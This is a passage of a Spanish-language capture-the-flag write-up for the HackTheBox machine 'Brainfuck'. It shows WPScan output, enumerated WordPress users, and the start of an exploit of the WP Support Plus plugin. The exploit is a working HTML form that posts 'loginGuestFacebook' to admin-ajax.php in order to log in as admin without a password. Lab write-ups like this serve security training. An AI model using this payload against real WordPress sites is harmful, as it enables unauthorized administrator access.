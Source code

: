 ```s

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Feb  3 14:56:28 2021
[+] Requests Done: 56
[+] Cached Requests: 5
[+] Data Sent: 13.884 KB
[+] Data Received: 161.755 KB
[+] Memory used: 247.184 MB
[+] Elapsed time: 00:00:05
```

Vamos a enumerar los usuarios para realizar la exploitación

```s
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ```

---
## Explotación

Para la explotación, vamos a hacer uso de una vulnerabilidad en el plugin *wp support plus responsive ticket system*. En este caso, la vulnerabilidad reside en una mala gestión del componente wp_set_auth_cookie() de wordpress.
* https://packetstormsecurity.com/files/140413/wpsupportplusrts-escalate.txt

Para explotar esta vulnerablilidad primero crearemos en nuestra máquina un fichero html con el siguiente contenido:
```html
<form action="https://brainfuck.htb/wp-admin/admin-ajax.php" method="post">
  Username: <input type="text" name="username" value="admin">
  <input type="hidden" name="email" value="sth">
  <input type="hidden" name="action" value="loginGuestFacebook">
  <input type="submit" value="Login">
</form>
```

Despues, lo expondremos con un servidor web en python para realizar la petición post al servidor.
En este caso, utilizamos el user admin, ya que es el que tiene los permisos suficientes para gestonar la plataforma.
